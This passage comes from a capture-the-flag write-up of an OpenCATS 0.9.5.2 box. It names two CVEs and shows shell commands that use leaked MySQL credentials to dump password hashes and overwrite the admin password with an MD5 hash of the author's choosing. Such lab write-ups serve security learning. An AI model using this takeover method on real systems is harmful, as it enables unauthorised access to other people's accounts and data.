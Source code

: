 ## OpenCats Exploit

The login page shows us the version is 0.9.5.2, a search found two CVEs. [This](https://www.opencve.io/cve/CVE-2021-25294) is a de-serialization exploit, and [this](https://www.opencve.io/cve/CVE-2021-25295) is a XXS issue. Both point to a technical walk through [here](https://snoopysecurity.github.io/web-application-security/2021/01/16/09_opencats_php_object_injection.html).

To be able to take advantage of these exploits we need valid credentials to get in to the OpenCATS dashboard. Earlier I found users and hashes from the MySQL database used by OpenCATS, but I couldn't crack them. Instead with admin access to the database we can just set a new password for the admin account.

Create an md5 hash of my password which is pencer:

```text
jennifer@admirertoo:~$ echo -n pencer | md5sum
b8ea4ab13b0e0864760dbfb9427f31fc  -
```

Find the user_id of the admin account in the database:

```text
jennifer@admirertoo:~$ mysql -u cats -padm1r3r0fc4ts -D cats_dev -e 'select user_id,user_name,password from user;'
+---------+----------------+----------------------------------+
| user_id | user_name      | password                         |
+---------+----------------+----------------------------------+
|       1 | admin          | dfa2a420a4e48de6fe481c90e295fe97 |
|    1250 | cats@rootadmin | cantlogin                        |
|    1251 | jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+---------+----------------+----------------------------------+
```

Change password to my hashed version:

```text
jennifer@admirertoo:~$ mysql -u cats -padm1r3r0fc4ts -D cats_dev -e 'update user set password = "b8ea4ab13b0e0864760dbfb9427f31fc" where user_id = 1;'
```

## OpenCats As Administrator

Now go back to the OpenCATS login box and use admin:pencer to get in to the dashboard:
